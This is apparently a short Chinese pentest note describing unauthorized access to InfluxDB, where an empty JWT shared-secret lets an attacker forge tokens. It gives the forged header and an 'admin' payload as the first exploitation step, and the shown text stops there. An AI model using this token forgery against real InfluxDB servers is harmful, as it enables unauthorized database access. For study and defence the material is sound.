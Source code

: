 <img src="图片\Snipaste_2023-02-08_16-14-54.png" alt="Snipaste_2023-02-08_16-14-54" style="zoom:67%;" />

## Influxdb-未授权访问

`Jwt验证不当`

默认端口：8086 8088

influxdb 是一款著名的时序数据库，其使用jwt作为鉴权方式。在用户开启了认证，但未设置参数 shared-secret 的情况下，`jwt 的认证密钥为空字符串`，此时攻击者可以伪造任意用户身份在 influxdb 中执行SQL语句

1、借助https://jwt.io/来生成jwt token：

```
{

  "alg": "HS256",

  "typ": "JWT"

}

{

  "username": "admin",

  "exp": 1676346267
}
```
